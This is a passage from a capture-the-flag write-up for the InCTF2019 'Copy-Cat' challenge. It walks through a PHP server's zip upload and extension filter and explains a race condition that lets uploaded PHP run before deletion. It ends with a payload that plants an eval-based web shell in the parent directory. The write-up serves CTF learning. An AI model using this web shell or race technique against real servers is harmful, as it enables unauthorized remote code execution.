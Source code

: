 Using this you need to bypass this stage, [here](https://github.com/tarunkant/CTF/blob/master/InCTF2019/Copy-Cat/exploit1.py) you can get the exploit script for doing the same.

Now admin has the functionality to import zip file, and our game server will extract the non-malicious files.  

#### Intended Step for this stage:
```php
function ExtractZipFile($file,$path){
  $zip = new ZipArchive;
  if ($zip->open($file) === TRUE) {
    $zip->extractTo($path);
    $zip->close();
}
}

function CheckDir($path) {
    $files = scandir($path);
    foreach ($files as $file) {
        $filepath = "$path/$file";
        if (is_file($filepath)) {
            $parts = pathinfo($file);
            $ext = strtolower($parts['extension']);
            if (strpos($ext, 'php') === false &&
                strpos($ext, 'pl') === false &&
                strpos($ext, 'py') === false &&
                strpos($ext, 'cgi') === false &&
                strpos($ext, 'asp') === false &&
                strpos($ext, 'js') === false &&
                strpos($ext, 'rb') === false &&
		strpos($ext, 'htaccess') === false &&
                strpos($ext, 'jar') === false) {
                @chmod($filepath, 0666);
            } else {
                @chmod($filepath, 0666);    // just in case the unlink fails for some reason
                unlink($filepath);
            }
        } elseif ($file != '.' && $file != '..' && is_dir($filepath)) {
            CheckDir($filepath);
        }
    }
}
```
`CheckDir` is the function to check and remove malicious files. And `ExtractZipFile` functions will extract the files from zip. So, let's see how these functions are called.
```php
ExtractZipFile($_FILES['file']['tmp_name'], $SANDBOX);
CheckDir($SANDBOX);
```
Do you see the problem here? **Race-Condition**. So using the Race Condition you can execute PHP files before it gets deleted, so you can see that it's too much unstable. Not everytime for running a PHP code I can make race-codition.  
So we need to find a stable method from where you can quey PHP codes.  
So here is the idea, what if you can put file in parent directory because the function `CheckDir` checks for malicious file in current directory(recursively).
```php
$payload = '<?php eval($_GET[\'cmd\']); ?> ';
file_put_contents("../a.php",$payload);
```
So putting this file using Race-Condition will give us to execute PHP codes.
